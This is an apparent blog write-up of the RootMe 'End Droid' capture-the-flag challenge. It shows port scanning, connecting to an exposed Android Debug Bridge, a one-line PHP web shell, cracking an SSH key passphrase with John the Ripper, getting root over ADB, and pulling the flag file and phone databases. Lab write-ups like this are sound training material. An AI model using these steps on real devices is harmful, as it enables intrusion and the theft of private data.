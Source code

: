 ```yaml
---
title: RootMe - End Droid Writeup
date: 2023-10-08
categories: [RootMe, Realistic]
tags: [RootMe, RootMe - Realistic, WriteUp, Android]
author: barabulkit
---
```


# RootMe - End Droid

This challenge is kinda dissappointing for me (honestly i didn't validate it)\
But i will consider like i did, cause i guess i found anything possible, and even the flag, i'm just not able to validate it

This is challenge about android and all we have is the server address, so i started with 

```shell
nmap -PN -sT -sV -p0-65535 ctf04.root-me.org
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 19:17 +03
Nmap scan report for ctf04.root-me.org (212.129.28.21)
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp open  http    PHP cli server 5.5 or later
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)

Service Info: OS: Android; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

We can see that there is ADB service at 5555 port\
lets install adb client to kali and connect to this service
```shell
sudo apt install android-tools-adb android-tools-fastboot
```

And then connect to device
```shell
adb connect ctf04.root-me.org
```

now we can start searching for flag on the server
```shell
ls /mnt/shell/emulated/0
Alarms
Android
Boot_Shell
DCIM
Download
Movies
Music
Podcasts
Ringtones
htdocs
kickwebinfo
obb
passwd
ssh
storage
www
```

I have found what i was looking for there (passwd file), but wasn't able to read it
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

i wasn't knowing why i can't read it yet, so i just continued my investigation\
And found php backdoor
```
adb shell cat /mnt/shell/emulated/0/www/public/announce/backdoor.php
<?php system($_POST['secret']);?>
```

Unfortunately this is not very usefull cause this is the same thing as `adb shell`\
But then i found private ssh key
```shell
adb shell ls /mnt/shell/emulated/0/www/public/secret22000
touhid.key
```

So i pulled it and tried to connect to ssh with it
```shell
adb pull touhid.key
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
```

But got prompted that i need a passphase for this key\
So i cracked this with johntheripper

```shell
ssh2john touhid.key > touhid.hash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10.txt
john --wordlist=darkweb2017-top10.txt touhid.hash
john --show touhid.hash

touhid.key:qwerty

1 password hash cracked, 0 left
```

But it didn't give me anything, i was not able to connect even with passphrase
```shell
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
touhid@ctf04.root-me.org: Permission denied (publickey).
```

Then i went to google to read more about adb and android filesystem\
And i found that i can try to get root with just
```shell
adb root
```

and it worked, but i still couldn't read passwd file
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

And that was because i read it from wrong location, there is actual storage at `/data/media/0` that is the same as `/mnt/shell/emulated/0`
And i was able to read passwd from it
```shell
adb shell cat /data/media/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

I can even change access rights to this file through `/data/media/0`
```shell
adb shell chmod 777 /data/media/0/passwd
```

And now i can read it even from `/mnt/shell/emulated/0`
```shell
adb shell cat /mnt/shell/emulated/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

And looks like thats it, i have solved the challenge, but i only was able to validate it on virtual env page for this challenge
![validated](/assets/img/rootme/realistic/enddroid/realistic-enddroid.png)

But i wasn't able to validate a challenge with this flag at the challenge page so it still not finished
I even tried to do a bit more, i found flag.txt
```shell
adb shell cat /data/root/flag.txt 
No flag here but you can check your sms :) !
```

But it is not a flag, but there is a hint to check sms.
So i downloaded sms database with
```shell
adb pull /data/data/com.android.providers.telephony/databases/mmssms.db
```

But it was empty, i then downloaded calendar database, downloads database, gmail database, and in all this dbs there was nothing\
I also found another way to obtain flag i already have through superuser database
```shell
adb pull  /data/data/com.thirdparty.superuser/databases/

/data/data/com.thirdparty.superuser/databases/: 4 files pulled, 0 skipped. 0.0 MB/s (119912 bytes in 3.169s)
```

![superuserdb](/assets/img/rootme/realistic/enddroid/enddroiddb.png)

So that is all i was able to find in this challenge and still was not able to validate it, but at least i learned a bit about android

UPD. finally got the flag
![flag](/assets/img/rootme/realistic/enddroid/enddroidflag.png)